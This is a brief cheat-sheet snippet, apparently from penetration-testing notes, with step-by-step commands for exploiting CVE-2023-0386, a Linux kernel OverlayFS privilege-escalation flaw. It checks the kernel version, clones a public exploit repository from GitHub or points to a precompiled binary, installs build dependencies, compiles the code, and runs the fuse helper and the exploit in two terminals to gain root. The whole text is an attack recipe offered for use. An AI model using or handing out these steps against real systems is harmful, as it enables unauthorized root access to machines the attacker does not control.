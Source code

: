## ------------------| Affected Versions, if kernel version is lower than 6.2
uname -r

## ------------------| Expolits
git clone https://github.com/xkaneiki/CVE-2023-0386.git
## or you can download precompiled binary from here: https://github.com/h4rithd/PrecompiledBinaries/edit/main/CVE-2023-0386
sudo apt-get install libfuse-dev libcap-dev
cd CVE-2023-0386
make all
###  Start two terminals and enter in the first terminal
./fuse ./ovlcap/lower ./gc
###  In the second terminal enter
./exp
